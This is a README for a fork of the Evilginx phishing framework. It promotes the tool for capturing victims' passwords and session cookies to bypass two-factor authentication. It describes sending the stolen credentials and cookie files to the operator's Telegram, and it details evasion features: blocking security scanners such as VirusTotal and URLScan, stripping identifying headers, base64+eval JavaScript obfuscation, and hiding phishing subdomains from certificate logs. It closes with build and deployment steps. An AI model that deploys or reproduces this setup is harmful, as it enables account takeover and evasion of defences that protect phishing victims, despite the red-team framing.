

<!--
╔══════════════════════════════════════════════════════════════════════════════╗
║                                                                            ║
║                      🦊  E V I L G I N X 3                                ║
║                     T E L E G R A M   E D I T I O N                       ║
║                                                                            ║
║         Man-in-the-Middle Attack Framework with 2FA Bypass                ║
║                  & Real-Time Telegram Alerts                               ║
║                                                                            ║
║                  Created with ❤ by @officialmonsterz                      ║
║                                                                            ║
╚══════════════════════════════════════════════════════════════════════════════╝
-->

<p align="center">
  
</p>

<h1 align="center" style="font-family: 'Courier New', monospace; font-size: 2.5em; color: #ff6b35; text-shadow: 0 2px 4px rgba(0,0,0,0.3);">
  🦊 Evilginx3 — Telegram Edition
</h1>

<p align="center" style="font-size: 1.15em; font-weight: 500; color: #555;">
  <strong>
    The Advanced Man-in-the-Middle Attack Framework with 2FA Bypass<br>
    & Real-Time Telegram Alerts — Supercharged for Red Teams
  </strong>
</p>

<br>

<p align="center">
  <a href="https://t.me/officialmonsterz">
    
  </a>
  <a href="mailto:shapads@tutamail.com">
    
  </a>
  <a href="https://github.com/officialmonsterz/evilginx2">
    
  </a>
</p>

<p align="center">
  <a href="https://github.com/officialmonsterz/evilginx2/blob/master/LICENSE">
    
  </a>
  
  
  
  
  
</p>

<br>

---

<br>

<p align="center">
  
</p>

<br>

---

<br>

# 📋 Table of Contents

- [🧠 What Is Evilginx3? (The Simple Explanation)](#-what-is-evilginx3-the-simple-explanation)
- [🎯 How It Works — The Big Picture](#-how-it-works--the-big-picture)
- [⚡ Why This Fork? (What Makes It Special)](#-why-this-fork-what-makes-it-special)
- [✨ New Features Deep Dive](#-new-features-deep-dive)
  - [📱 1. Telegram Notifications — The Core Feature](#-1-telegram-notifications--the-core-feature)
  - [📊 2. Web Dashboard](#-2-web-dashboard)
  - [💾 3. BuntDB Embedded Database](#-3-buntdb-embedded-database)
  - [🐳 4. Multi-Stage Docker Build (~18MB Alpine)](#-4-multi-stage-docker-build-18mb-alpine)
  - [📁 5. Auto-Export System](#-5-auto-export-system)
  - [🔒 6. Wildcard SSL Support (TLD Wildcard)](#-6-wildcard-ssl-support-tld-wildcard)
  - [🕵️ 7. Bot Protection & Scanner Detection](#️-7-bot-protection--scanner-detection)
  - [🔗 8. URL Rewriting & Sensitive Path Cleanup](#-8-url-rewriting--sensitive-path-cleanup)
  - [🛡️ 9. Header Stripping (OPSEC)](#️-9-header-stripping-opsec)
  - [🌀 10. Dynamic unauth_url Content Spoofing](#-10-dynamic-unauth_url-content-spoofing)
  - [📝 11. JS Obfuscation](#-11-js-obfuscation)
  - [⚙️ 12. Global strip_headers Toggle](#️-12-global-strip_headers-toggle)
- [🚀 Quick Start](#-quick-start)
- [📱 Telegram Integration](#-telegram-integration)
- [📊 Web Dashboard](#-web-dashboard)
- [🐳 Docker Support](#-docker-support)
- [🔧 Configuration Reference](#-configuration-reference)
- [📂 Repository File Structure](#-repository-file-structure)
- [⚖️ Disclaimer](#%EF%B8%8F-disclaimer)
- [👏 Credits & Support](#-credits--support)

<br>

---

<br>

# 🧠 What Is Evilginx3? (The Simple Explanation)

> **Evilginx3 is a tool that lets you capture someone's login credentials AND their session cookies — even if they use two-factor authentication (2FA).**

Let me explain this in plain English.

## The Problem Evilginx3 Solves

Normally, when a website has **2FA (two-factor authentication)**, capturing just a username and password isn't enough. Even if you know someone's password, you still need their 2FA code (like a text message code or authenticator app code) to log in.

**Evilginx3 bypasses this problem entirely.**

Instead of trying to steal the 2FA code, it steals the **session cookie** — which is the digital "I'm already logged in" ticket that the website gives you AFTER you finish logging in. Once you have this cookie, you can import it into your browser and you're instantly logged in as that user, with **zero need for a 2FA code**.

## In Real-World Terms

Imagine you want to test your company's security (this is an authorized penetration test).

1. You send an email to employees: "Please verify your Office 365 account"
2. The link goes to a page that **looks exactly** like Microsoft's login page
3. When an employee types their username, password, AND 2FA code... the login **actually works** (they see no error)
4. BUT — without them knowing — Evilginx3 has captured their session cookie
5. You get an **instant notification on your phone** via Telegram with the credentials AND the cookie file
6. You import that cookie into your browser, and now you're logged in as that employee — 2FA completely bypassed

> **This is called a "man-in-the-middle" (MITM) attack.** Evilginx3 sits between the victim and the real website, forwarding traffic in both directions while silently copying everything valuable.

<br>

---

<br>

# ⚡ Why This Fork? (What Makes It Special)

This fork by **[@officialmonsterz](https://t.me/officialmonsterz)** takes the already powerful Evilginx3 and supercharges it with **features that penetration testers actually need in real engagements**.

## The Problem with the Original Evilginx

The original Evilginx3 is a **phenomenal framework** — powerful, elegant, and battle-tested. But it has some real-world limitations:

| Problem | Why It Matters |
|:--------|:---------------|
| ❌ **No notifications** | You have to constantly stare at a terminal or SSH into a server to see if you caught anything |
| ❌ **No web interface** | Everything is CLI-only — no easy way to browse captured sessions |
| ❌ **No database** | Sessions are logged to plain text files — no search, no filtering |
| ❌ **No export** | If you need to generate a report, you're manually copying data |
| ❌ **No Docker optimization** | The build produces a large image — not ideal for cloud deployment |
| ❌ **No bot protection** | Scanner bots like VirusTotal/URLScan could index your phishing page |
| ❌ **OPSEC concerns** | Evilginx headers leak in requests/responses, revealing the tool in use |

## What This Fork Solves

> **"The difference between a good tool and a great tool is how it fits into your workflow."**

| Reason | What It Means For You |
|:-------|:----------------------|
| 🚀 **Instant Results** | Credentials hit your Telegram **within seconds** of capture — no more refreshing CLI or SSH'ing into servers |
| 📎 **Portable Tokens** | Tokens are saved as `.txt` files that you can import into **any browser** with cookie editor extensions — ready to use immediately |
| 🔄 **No Notification Spam** | If more tokens are captured, the **same Telegram message is updated** — not a new message flooding your chat |
| 📊 **Professional Reporting** | Export sessions as CSV/JSON for your penetration test reports — documentation-ready |
| 🛡️ **Built for Red Teams** | Dashboard + Telegram = monitor multiple campaigns from anywhere in the world |
| 🐳 **Deploy Anywhere** | Docker image works on any Linux server in seconds — AWS, DigitalOcean, Hetzner, anything |
| 🔧 **Zero Extra Config** | No MySQL, no Redis, no Nginx, no Node.js — just **one binary** and it runs |
| 💾 **Persistence Built In** | BuntDB stores everything in a single file — no external database server needed |
| 🌐 **Wildcard SSL Ready** | Full wildcard DNS support (`*.yourdomain.com`) — automatically handles SSL for ALL subdomains |
| 🕵️ **Scanner/Bot Protection** | Blocks VirusTotal, URLScan, headless browsers, and scanners using multi-signal detection |
| 🛡️ **Header Stripping** | Removes all Evilginx identifying headers from proxy traffic — OPSEC improvement |
| 🔗 **URL Rewriting** | Cleans exposed auth paths from the address bar for cleaner phishing pages |
| 📝 **JS Obfuscation** | Injected JavaScript is base64+eval-obfuscated — evades simple signature detection |
| 🌐 **Dynamic unauth_url** | Blocked visitors see the actual content of YouTube/Google/etc served through your domain — not a redirect |

<br>

---

<br>

# 📊 Feature Comparison Matrix

## 🧠 Core Engine

| Feature | Evilginx2 (kgretzky) | Evilginx3 (kgretzky) | This Fork (Telegram Edition) |
|---------|:--------------------:|:--------------------:|:----------------------------:|
| MITM Proxy Engine | ✅ | ✅ | ✅ **Enhanced** |
| SSL / Autocert (Let's Encrypt) | ✅ | ✅ | ✅ **Wildcard Support** |
| Phishlet System (YAML Templates) | ✅ | ✅ | ✅ Includes All |
| Built-in DNS Server | ✅ | ✅ | ✅ |
| Nameserver / Blacklist | ✅ | ✅ | ✅ |

## 📱 Notifications & Delivery

| Feature | Evilginx2 | Evilginx3 | This Fork |
|---------|:---------:|:---------:|:---------:|
| Telegram Notifications | ❌ | ❌ | ✅ **Real-Time Alerts** |
| Token `.txt` Attachments | ❌ | ❌ | ✅ **Downloadable Files** |
| Auto-Updating Telegram Messages | ❌ | ❌ | ✅ **Message Editing** |
| Async Notification Queue (100 jobs) | ❌ | ❌ | ✅ **Non-Blocking** |

## 📊 Dashboard & UI

| Feature | Evilginx2 | Evilginx3 | This Fork |
|---------|:---------:|:---------:|:---------:|
| Web Dashboard (Port 5000) | ❌ | ❌ | ✅ **Full UI + REST API** |
| Session Search & Filter | ❌ | ❌ | ✅ |
| Dark Mode | ❌ | ❌ | ✅ |
| Pagination | ❌ | ❌ | ✅ |
| Dashboard Authentication | ❌ | ❌ | ✅ (Basic Auth) |
| CSV / JSON Export | ❌ | ❌ | ✅ |
| Session Deletion (UI/API) | ❌ | ❌ | ✅ |

## 💾 Database & Storage

| Feature | Evilginx2 | Evilginx3 | This Fork |
|---------|:---------:|:---------:|:---------:|
| Embedded Database (BuntDB) | ❌ | ❌ | ✅ |
| Automatic Session Files | ❌ | ❌ | ✅ (JSON/CSV) |
| Session CRUD Operations | ❌ | ❌ | ✅ |

## 🔒 Stealth & OPSEC

| Feature | Evilginx2 | Evilginx3 | This Fork |
|---------|:---------:|:---------:|:---------:|
| Multi-Signal Bot Protection | ❌ | ❌ | ✅ **30+ scanner signatures** |
| Header Stripping (global toggle) | ❌ | ❌ | ✅ |
| URL Rewriting (sensitive-path clean) | ❌ | ❌ | ✅ |
| JS Obfuscation (base64+eval) | ❌ | ❌ | ✅ |
| Dynamic unauth_url Content Spoofing | ❌ | ❌ | ✅ **Proxies real content** |
| Wildcard SSL Certificate Support | ❌ | ❌ | ✅ |

## 🐳 Deployment & Operations

| Feature | Evilginx2 | Evilginx3 | This Fork |
|---------|:---------:|:---------:|:---------:|
| Multi-Stage Docker Build (~18MB Alpine) | ❌ | ❌ | ✅ |
| Docker Compose Support | ❌ | ❌ | ✅ |
| Non-Root Container User | ❌ | ❌ | ✅ |
| Systemd Service Support | ⚠️ Manual | ⚠️ Manual | ✅ **Full Guide** |
| Operational Telegram Test (`telegram test`) | ❌ | ❌ | ✅ |
| Comprehensive DEPLOYMENT.md | ❌ | ❌ | ✅ |

<br>

---

<br>

# ✨ New Features Deep Dive

Let me walk you through every new feature in detail.

---

## 📱 1. Telegram Notifications — The Core Feature

This is the **flagship feature** of this fork. When a victim submits credentials on your phishing page, you get an **instant Telegram message** on your phone with all the details. Within seconds, you know:
- Who submitted credentials
- What password they used
- What tokens/cookies were captured
- Their IP address
- Their browser/device info

### What Your Telegram Message Looks Like

✨ Session Information ✨

👤 Username: victim@company.com 🔑 Password: SuperSecret123! 🌐 Landing URL: Link 🖥️ User Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)... 🌍 Remote Address: 203.0.113.42 🕒 Created: 1780014345 🕔 Updated: 1780014350

📦 Tokens are attached as a separate file.

The message includes a `.txt` file attachment containing all captured session tokens/cookies in JSON format, ready to import into browser extensions like Cookie-Editor or StorageAce.

### How Telegram Notifications Work (Behind the Scenes)

## Telegram Notification Flow



### Workflow Summary

1. **Session Captured**
   - Credentials and tokens are intercepted.

2. **Telegram Job Queued**
   - Implemented in `core/telegram_queue.go`.
   - Uses an asynchronous, non-blocking buffered channel.
   - Capacity: **100 queued jobs**.
   - Proxy execution never waits for Telegram API responses.

3. **Notification Processing**
   - Handled by `core/notify.go`.
   - Determines whether the session has already been reported.

4. **First Notification**
   - Creates a `.txt` file containing all captured tokens.
   - Sends the file via Telegram.
   - Stores the returned Telegram `message_id` for future updates.

5. **Subsequent Updates**
   - Creates an updated `.txt` file.
   - Retrieves the stored `message_id`.
   - Updates the existing Telegram message using `editMessageFile`.

6. **Result**
   - Exactly **one Telegram message per session**.
   - Existing messages are updated instead of creating duplicates.

7. **Auto Export**
   - Session data is automatically written to:
     - JSON files
     - CSV files
```

### Key Files for Telegram Integration

| File | Purpose |
|:-----|:--------|
| `core/telegram_queue.go` | Async notification queue — buffered channel of 100 jobs, never blocks the proxy |
| `core/notify.go` | Core notification logic — creates `.txt` files with tokens, handles first-send vs edit logic, formats messages with MarkdownV2 |
| `core/tele.go` | Low-level Telegram API calls — `sendTelegramNotification()`, `editMessageFile()`, `updateMessageFile()` |
| `core/tsession.go` | `TSession` struct definition for Telegram communication; `readFile()` fallback to database |
| `core/telegram_escape.go` | Escapes special characters for Telegram MarkdownV2 format (`_ * [ ] ( ) ~ > # + - = \| { } . !`) |
| `core/http_proxy.go` | `sendTelegramNotificationForSession()` — triggered on credential and token capture events |
| `core/config.go` | `SetChatid()`, `SetTeletoken()`, `ValidateTelegramConfig()` — configuration management |

---

## 📊 2. Web Dashboard

Access your captured sessions from **any browser** at `http://YOUR_SERVER_IP:5000`. No more SSH'ing into a server just to check if you caught anything.

### Dashboard Layout

# 🦊 Evilginx2 Dashboard

**Telegram Edition by @officialmonsterz**
🌙 Dark Mode | 🟢 Online

---

## 📊 Statistics

| Total Records | Unique Users | Showing |
| ------------- | ------------ | ------- |
| 42            | 3            | 20      |

---

## 🔎 Filters & Actions

**Search:** `username, password, IP address...`

**Phishlet Filter:** `All Phishlets ▼`

### Actions

* 📥 Export CSV
* 📥 Export JSON
* 🔄 Refresh

---

## 📋 Captured Records

| ID | Phishlet  | Username                                    | Password    | IP Address   | Time |
| -- | --------- | ------------------------------------------- | ----------- | ------------ | ---- |
| 1  | office365 | [ceo@company.com](mailto:ceo@company.com)   | Winter2024! | 203.0.113.x  | ...  |
| 2  | google    | [admin@startup.io](mailto:admin@startup.io) | P@ssw0rd    | 198.51.100.x | ...  |
| 3  | linkedin  | [hr@company.org](mailto:hr@company.org)     | Recruit123  | 192.0.2.88   | ...  |

---

## 📄 Pagination

◀ **Previous** | **Page 1 of 5** | **Next** ▶

### Dashboard Features

| Feature | How It Works | Why You Need It |
|:--------|:-------------|:----------------|
| **🔍 Search** | Type anything — username, password, IP, phishlet name | Find a specific session quickly among hundreds |
| **📁 Filter by Phishlet** | Dropdown to show only one phishlet type | Focus on one campaign at a time |
| **📥 Export CSV** | Downloads all sessions as a CSV file | Import into Excel for your penetration test report |
| **📥 Export JSON** | Downloads all sessions as JSON | Process programmatically or import into other tools |
| **🔄 Auto-Refresh** | Refreshes every 5 seconds automatically | Always see the latest captures without refreshing |
| **🌙 Dark Mode** | Toggle dark/light theme, respects OS preference | Comfortable viewing in low-light environments |
| **📄 Row Click** | Click any row to see full session details in JSON | View all cookies and tokens for a session |
| **🗑️ Delete** | Delete individual sessions | Clean up test data or remove irrelevant captures |
| **📊 Pagination** | Navigate through pages (50 per page) | Handle hundreds or thousands of sessions |

### REST API Endpoints

| Endpoint | Method | Purpose |
|----------|:------:|---------|
| `/api/sessions` | GET | List all sessions (supports `?search=`, `?phishlet=`, `?limit=`, `?offset=`) |
| `/api/sessions/export?format=csv` | GET | Export all sessions as CSV file |
| `/api/sessions/export?format=json` | GET | Export all sessions as JSON file |
| `/api/sessions/{id}` | GET | Retrieve full details for a specific session |
| `/api/sessions/{id}` | DELETE | Delete a specific session |

### API Examples

```bash
# List sessions (with basic auth)
curl -u admin:mypass "http://YOUR_IP:5000/api/sessions"

# Search with filters
curl -u admin:mypass "http://YOUR_IP:5000/api/sessions?search=admin&phishlet=office365&limit=10&offset=0"

# Export
curl -u admin:mypass "http://YOUR_IP:5000/api/sessions/export?format=csv" -o sessions.csv
curl -u admin:mypass "http://YOUR_IP:5000/api/sessions/export?format=json" -o sessions.json

# Delete a session
curl -u admin:mypass -X DELETE "http://YOUR_IP:5000/api/sessions/42"

Key File

File	Purpose
core/dashboard.go	HTTP server, HTML template (embedded), REST API handlers, Basic Auth middleware — single file, zero external dependencies

💾 3. BuntDB Embedded Database
No more parsing plain text log files. This fork uses BuntDB — an embedded, zero-configuration, key-value database written in Go.

Why BuntDB?

Requirement	Plain Text Logs	MySQL/PostgreSQL	BuntDB (This Fork)
Setup Time	None	30-60 minutes	None!
External Server	No	Yes	No
Dependencies	None	Many	None
Query Capability	grep only	Full SQL	JSON indexes
Backup	cp file	mysqldump	cp file
Memory Footprint	0 MB	100+ MB	~5 MB
Crash Recovery	Manual	Complex (WAL)	Auto (append-only)
Concurrent Access	❌	✅	✅ (RWMutex)
Schema Migrations	N/A	Required	No schema needed
Portable	✅ cp	❌ mysqldump	✅ Just cp

Key Files

File	Purpose
database/database.go	BuntDB wrapper — NewDatabase() initialization, CRUD dispatch, helper functions
database/db_session.go	Session struct definition + full CRUD operations (Create, List, Update, Delete, Search)
🐳 4. Multi-Stage Docker Build (~18MB Alpine)
Production-ready multi-stage Docker build producing a minimal ~18MB Alpine-based image.

Build Architecture

┌─────────────────────────────────────────────────────────────────────────────┐
│  STAGE 1: BUILDER (golang:1.23-alpine)                                     │
│  ┌─────────────────────────────────────────────────────────────────────┐   │
│  │  • Installs: git, ca-certificates, build-base                       │   │
│  │  • Copies go.mod + go.sum → go mod download (Docker layer cached)  │   │
│  │  • Copies source code                                              │   │
│  │  • Builds: CGO_ENABLED=0, -ldflags="-s -w" (stripped binary)       │   │
│  │  • Output: /build/evilginx (single static binary)                  │   │
│  └─────────────────────────────────────────────────────────────────────┘   │
│                               │                                             │
│                               ▼                                             │
│  STAGE 2: RUNTIME (alpine:latest)                                          │
│  ┌─────────────────────────────────────────────────────────────────────┐   │
│  │  • Installs: ca-certificates, tzdata, libcap                        │   │
│  │  • Creates 'evilginx' non-root user                                 │   │
│  │  • Copies ONLY the compiled binary from builder stage               │   │
│  │  • Copies phishlets/ and redirectors/                               │   │
│  │  • Sets cap_net_bind_service=+ep (bind ports <1024 as non-root)     │   │
│  │  • Runs as non-root 'evilginx' user                                 │   │
│  │  • Exposes ports: 53, 80, 443, 5000                                 │   │
│  │  • Volume: /home/evilginx/.evilginx (persistent data)               │   │
│  │  • FINAL IMAGE SIZE: ~18MB                                          │   │
│  └─────────────────────────────────────────────────────────────────────┘   │
└─────────────────────────────────────────────────────────────────────────────┘

Security Benefits

Feature	Why It Matters
Non-root user	Container compromise ≠ host root access
cap_net_bind_service	Bind ports <1024 without root
~18MB image	Minimal attack surface
Alpine Linux	Minimal packages = minimal vulnerabilities
Volume for data	Database persists across container updates

Key Files

File	Purpose

Dockerfile	Multi-stage build — builder + runtime stages
.dockerignore	Excludes unnecessary files from build context
docker-compose.yml	Docker Compose configuration
📁 5. Auto-Export System
Every captured session is automatically saved to disk as structured files, ensuring redundancy even if the database is lost.

How It Works

Session Captured
       │
       ▼
┌──────────────────────────────────┐
│  Save to BuntDB (primary)        │
│  Enqueue Telegram notification    │
│  Auto-export to filesystem        │
└──────────┬───────────────────────┘
           │
           ▼
┌──────────────────────────────────┐
│  📁 ~/.evilginx/exports/         │
│                                  │
│  Per-file mode (default):        │
│  ├── office365_20260101_120000_1.json  │
│  ├── office365_20260101_120000_1.csv   │
│  ├── google_20260101_120500_2.json     │
│  └── google_20260101_120500_2.csv      │
│                                  │
│  Combined-file mode (optional):  │
│  ├── office365_exports.json      │
│  ├── sessions_export.csv         │
└──────────────────────────────────┘

Configuration
The auto-export system is configured via core/auto_export.go:

Setting	Default	Description
Enabled	false	Enable/disable auto-export
Format	"json"	Export format: "json" or "csv"
Path	/tmp/evilginx_exports	Output directory
PerFile	true	true = one file per session; false = append to one combined file

Key File

File	Purpose
core/auto_export.go	AutoExportConfig struct, GetAutoExportConfig() singleton, AutoExportSession() — writes JSON or CSV output to disk

🔒 6. Wildcard SSL Support
Clarification: Wildcard DNS vs Autocert
This fork supports loading pre-existing wildcard SSL certificates (covering *.yourdomain.com) to prevent Certificate Transparency (CT) logs from exposing individual phishlet subdomains. This is a critical OPSEC improvement.

┌─────────────────────────────────────────────────────────────────────────────┐
│                    WILDCARD SSL vs AUTOCERT EXPLAINED                      │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│  📌 What is a Wildcard SSL Certificate?                                    │
│  A single certificate that covers *.yourdomain.com — every subdomain.      │
│  When loaded, ALL subdomains use THIS certificate.                         │
│                                                                             │
│  📌 Why Does This Matter?                                                  │
│  Without wildcard:                                                          │
│    login.yourdomain.com  → separate cert → appears in crt.sh              │
│    accounts.yourdomain.com → separate cert → appears in crt.sh            │
│    Anyone can enumerate your phishlets via CT logs!                        │
│                                                                             │
│  With wildcard:                                                             │
│    *.yourdomain.com → ONE cert → only "yourdomain.com" in crt.sh          │
│    Subdomains are invisible in CT logs!                                    │
│                                                                             │
│  📌 How It Works in This Fork                                              │
│  On startup, certdb.go auto-loads wildcard certs from these paths:         │
│    1. ~/.evilginx/wildcard/fullchain.pem + privkey.pem                    │
│    2. ~/.evilginx/wildcard.pem + wildcard.key                             │
│    3. /etc/evilginx/certs/fullchain.pem + privkey.pem                     │
│                                                                             │
│  📌 Important: Keep Autocert ON                                            │
│  You still need autocert for the BASE domain certificate.                  │
│  The wildcard cert is used as a FALLBACK when available.                   │
│                                                                             │
│  config autocert on    ← always keep this on                               │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘

Key Files

File	Purpose

core/certdb.go	NewCertDb() auto-loads wildcard certs; GetCertificate() serves wildcard cert for matching SNI hostnames; LoadWildcardCert() loads from PEM files

🕵️ 7. Bot Protection & Scanner Detection
Built-in multi-signal bot detection engine that blocks over 30 categories of scanners, crawlers, and analysis tools.

Detection Signals
The bot protection in core/http_proxy.go checks multiple signals to identify non-human traffic:

┌─────────────────────────────────────────────────────────────────────────────┐
│                      BOT PROTECTION SIGNALS                                 │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│  🧠 Multi-Signal Detection (http_proxy.go):                                │
│                                                                             │
│  Signal 1: User-Agent Analysis                                             │
│  ┌─────────────────────────────────────────────────────────────────────┐   │
│  │  Blocked User-Agent Patterns:                                       │   │
│  │                                                                     │   │
│  │  • Security Scanners: virustotal, urlscan, phishtank                │   │
│  │  • Headless Browsers: headlesschrome, phantomjs, puppeteer,         │   │
│  │    selenium, lighthouse                                              │   │
│  │  • Network Scanners: zgrab, nuclei, masscan, nmap, sqlmap, nikto   │   │
│  │  • HTTP Libraries: python-requests, python-urllib, python-httpx,   │   │
│  │    go-http-client, httpie, wget, curl                               │   │
│  │  • Crawlers/Bots: ahrefsbot, semrush, majestic, mj12bot             │   │
│  │  • Social Media: facebookexternalhit, twitterbot, linkedinbot       │   │
│  │  • Chat Platforms: slack, discord, telegram                          │   │
│  └─────────────────────────────────────────────────────────────────────┘   │
│                                                                             │
│  Signal 2: Missing Headers                                                 │
│  ┌─────────────────────────────────────────────────────────────────────┐   │
│  │  Empty User-Agent → bot                                              │   │
│  │  Empty Accept header → bot                                          │   │
│  │  Empty Accept-Language + Accept-Encoding → bot                      │   │
│  └─────────────────────────────────────────────────────────────────────┘   │
│                                                                             │
│  When a bot is detected:                                                   │
│  → Request is redirected to unauth_url with dynamic content spoofing      │
│  → Warning is logged with the bot's User-Agent and IP address             │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘

🔗 8. URL Rewriting & Sensitive Path Cleanup
The rewriteSensitivePaths() function in core/http_proxy.go strips full phishing domain URLs from HTML responses and replaces them with clean relative paths.

Before & After

<!-- BEFORE: Exposed phishing domain in page source -->
<link href="https://login.yourdomain.com/static/css/main.css" rel="stylesheet">
<script src="https://login.yourdomain.com/assets/app.js"></script>
<a href="https://login.yourdomain.com/profile">Profile</a>

<!-- AFTER: Clean relative paths -->
<link href="/static/css/main.css" rel="stylesheet">
<script src="/assets/app.js"></script>
<a href="/profile">Profile</a>

This prevents:

The phishing domain from appearing in page source (evades simple scraping)
Protocol-relative URLs leaking the target structure
Address bar showing suspicious full URLs after navigation
🛡️ 9. Header Stripping (OPSEC)
Global strip_headers Toggle
Set via config strip_headers on|off in the console, or programmatically via SetStripHeaders() in core/config.go. When enabled, the following headers are stripped from both outgoing requests (upstream to target site) and downstream responses (to victim's browser):

Outgoing Requests (to real target website):

X-Evilginx
X-Evilginx2
X-Evilginx-Server
Via
X-Forwarded-For
X-Forwarded-Host
X-Forwarded-Proto
X-Real-Ip
X-Proxy-Id
Proxy-Connection

Downstream Responses (to victim's browser):

X-Evilginx
X-Evilginx2
X-Evilginx-Server
X-Powered-By
Via
X-Forwarded-For
X-Forwarded-Host
X-Forwarded-Proto
X-Real-Ip
X-Proxy-Id
Proxy-Connection
Proxy-Authenticate

This prevents:

The real target website from seeing Evilginx headers in its logs
Browser developer tools from revealing Evilginx signatures
Network-level detection of the phishing proxy
Key Files

File	Purpose
core/config.go	SetStripHeaders(), IsStripHeadersEnabled(), GetStripHeadersStatus()

🌀 10. Dynamic unauth_url Content Spoofing
When a request is blocked (unauthorized, blacklisted, or bot-detected), instead of a simple HTTP redirect or blank page, the blockRequest() function in core/http_proxy.go proxies the actual content of the configured unauth_url and serves it through your phishing domain.

How It Works

Blocked Request → URL is fetched (e.g., YouTube homepage)
                 → Response body is captured
                 → All references to the real domain are replaced with your phishing domain
                 → Content is served from YOUR domain with YOUR SSL certificate
Before & After
Without spoofing (original behavior):


Visitor → https://login.yourdomain.com → 302 Redirect → https://www.youtube.com
With spoofing (this fork):

Visitor → https://login.yourdomain.com → 200 OK → [YouTube homepage HTML served from your domain]
The victim sees the actual Google/YouTube/Wikipedia page content under your phishing domain. To a scanner like VirusTotal, it looks like a legitimate site hosting real content.

📝 11. JS Obfuscation
Injected JavaScript (redirect scripts, dynamic tracking) is obfuscated using obfuscateJS() in core/http_proxy.go:

// Original:
window.location.replace("https://example.com/redirect");

// After obfuscation:
(function(){var _d="d2luZG93LmxvY2F0aW9uLnJlcGxhY2UoImh0dHBzOi8vZXhhbXBsZS5jb20vcmVkaXJlY3QiKTs=";eval(atob(_d));})();

This prevents:

Simple signature-based detection of Evilginx injection scripts
Security scanners from flagging the injected JavaScript content
Automated analysis tools from identifying the redirect mechanism

⚙️ 12. Global strip_headers Toggle Configuration
The config strip_headers command toggles header stripping globally:

: config strip_headers on    ← enables removal of all Evilginx artifacts
: config strip_headers off   ← disables (default behavior)
: config                     ← shows current status with other config

Config Display
Running config without arguments now shows:


domain:            yourdomain.com
external_ipv4:     203.0.113.42
bind_ipv4:
https_port:        443
dns_port:          53
unauth_url:        https://www.google.com
autocert:          on
strip_headers:     on          ◄── NEW
gophish admin_url: https://gophish.yourdomain.com:7777
gophish api_key:   ********
gophish insecure:  false
chatid:            123456789
teletoken:         bot88634...Avo

🛡️ IP Whitelist System
A new core/whitelist.go provides an IP whitelist mechanism separate from the existing blacklist.

type Whitelist struct {
    ips        map[string]*AllowIP    // exact IP matches
    masks      []*AllowIP             // CIDR mask matches
    configPath string                 // file-backed persistence
    enabled    bool
    verbose    bool
}

Features

Feature	Implementation
File-backed persistence	IPs saved to whitelist.txt in config directory
CIDR mask support	192.168.1.0/24 style subnet whitelisting
Auto-allow localhost	127.0.0.1 and ::1 always allowed
Add/Remove/Clear	Full CRUD operations on the whitelist
Comment support	Lines after ; are treated as comments

🚀 Quick Start

Prerequisites

A VPS running Ubuntu 20.04+ or Debian 11+
A domain name pointed to your server via Cloudflare (DNS Only mode — grey cloud)
A Telegram account (for notifications)
SSH access to your server
One-Line System Prep

sudo apt update && sudo apt install wget curl git make build-essential screen certbot fail2ban htop net-tools ufw -y


Step 1: Fix DNS Port Conflict (Critical!)

sudo systemctl stop systemd-resolved && sudo systemctl disable systemd-resolved
sudo rm -f /etc/resolv.conf
echo "nameserver 1.1.1.1" | sudo tee /etc/resolv.conf
echo "nameserver 1.0.0.1" | sudo tee -a /etc/resolv.conf
sudo chattr +i /etc/resolv.conf

Step 2: Install Go 1.23

cd ~
wget https://go.dev/dl/go1.23.0.linux-amd64.tar.gz
sudo rm -rf /usr/local/go
sudo tar -C /usr/local -xzf go1.23.0.linux-amd64.tar.gz
echo 'export PATH=$PATH:/usr/local/go/bin' >> ~/.bashrc
source ~/.bashrc
go version
# Expected: go version go1.23.0 linux/amd64

Step 3: Configure Firewall

sudo ufw allow 22/tcp && sudo ufw allow 53/udp && sudo ufw allow 80/tcp
sudo ufw allow 443/tcp && sudo ufw allow 5000/tcp
sudo ufw --force enable
sudo ufw status

Step 4: Clone and Build

cd /root
git clone https://github.com/officialmonsterz/evilginx2.git
cd evilginx2
go mod tidy
go build -o evilginx2 .
chmod +x evilginx2

